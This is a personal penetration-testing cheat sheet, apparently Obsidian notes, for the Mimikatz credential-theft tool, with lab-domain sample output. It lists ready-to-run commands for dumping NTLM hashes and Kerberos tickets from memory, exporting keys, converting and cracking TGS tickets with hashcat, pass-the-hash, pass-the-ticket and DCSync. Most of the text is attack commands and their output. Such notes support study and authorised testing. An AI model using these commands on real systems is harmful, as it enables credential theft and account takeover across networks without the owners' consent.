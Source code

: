 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
Mimikatz is a windows tool for extracting plaintext passwords, hashes, PIN codes, and kerberos tickets from memory. It is also capable of performing Pass-the-Hash, Pass-the-Ticket, or build *Golden* tickets.
> [pypykatz](https://github.com/skelsec/pypykatz) is a python implementation of the tool that can be run on linux systems.
> [Linikatz](https://github.com/CiscoCXSecurity/linikatz) performs a similar role for linux too

## Installation
Pre-built binaries available in the git repo: https://github.com/gentilkiwi/mimikatz/releases
## Documentation
**Cheatsheet:** 
**Website:** https://github.com/gentilkiwi/mimikatz
## Usage
### Obtaining Hashes & Tickets
```batch
# Obtain NTLM hashes for users
C:\> mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit

# Obtain Kerberos Tickets (This potentially doesn't work for some W10 versions as it uses the wrong encryption)
C:\> mimikatz.exe privilege::debug "sekurlsa::tickets /export" exit

C:\> dir *.kirbi

<SNIP>
-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-johnny@krbtgt-inlanefreight.htb.kirbi
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi
<SNIP>

```
> For the tickets:
> - If it ends with `$` (Result 2 above) then it corresponds to the computer account (allowing the system to interact with Active Directory)
> - User tickets have the user's name (Result 1 above) followed by an `@` then the service name and domain. It follows the format `[random_value]-username@service-domain.local.kirbi`
> - If a user ticket has the service `krbtgt` then it is the [[Operating Systems/Windows/Kerberos#Ticket Granting Ticket (TGT)|TGT]] of that account.

### Exporting Kerberos Keys
Keys are not the same as tickets, they are encryption keys that Kerberos uses for creating TGTs.
```batch
C:\> mimikatz.exe privilege::debug "sekurlsa::ekeys" exit
```

### Extracting Kerberos TGS Tickets
```batch
C:\> mimikatz.exe privilege::debug
	base64 /out:true
	kerberos::list /export
```
> Without `base64 /out:true` it will extract to a `.kirbi` file, writing them to disk on the target machine (so will need to be exfiltrated)

As the base64 export is column wrapped, we need to prepare it for cracking:
```bash
# Remove any new lines and whitespace
echo "<base64 blob>" |  tr -d \\n
# Place the output into a file

# Convert to a .kirbi file
cat encoded_file | base64 -d > user.kirbi

# Conver it with john
python kirbi2john.py user.kirbi

# Modify the crack file for hashcat
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > user_tgs_hashcat

# Crack it
hashcat -m 13100 user_tgs_hashcat rockyou.txt
```

### Pass-the-Hash
Using the `sekurlsa::pth` module we can perform a pass-the-hash attack. It starts a process using the user's hash.
```batch
C:\> mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /NTLM:<hash> /domain:<AD_domain> /run:cmd.exe" exit
```
> We can specify any program in the `/run:` flag to launch any program but a shell is often most useful.

### Pass the Ticket
Using the `kerberos::ptt` module we can perform a pass-the-ticket attack using a `.kirbi` ticket file.
```batch
C:\> mimikatz.exe privilege::debug "kerberos::ptt <ticket_file> exit
```

### [[Abusing ACLs#DCSync|DCSync]]
> We may have to use `runas /netonly /user:[domain]\[user] powershell` as we need to be running in the context of the user with the DCSync permissions
```PowerShell
mimikatz.exe privilege::debug "lsadump::dcsync /domain:[domain] /user:[domain]\[user]"
```
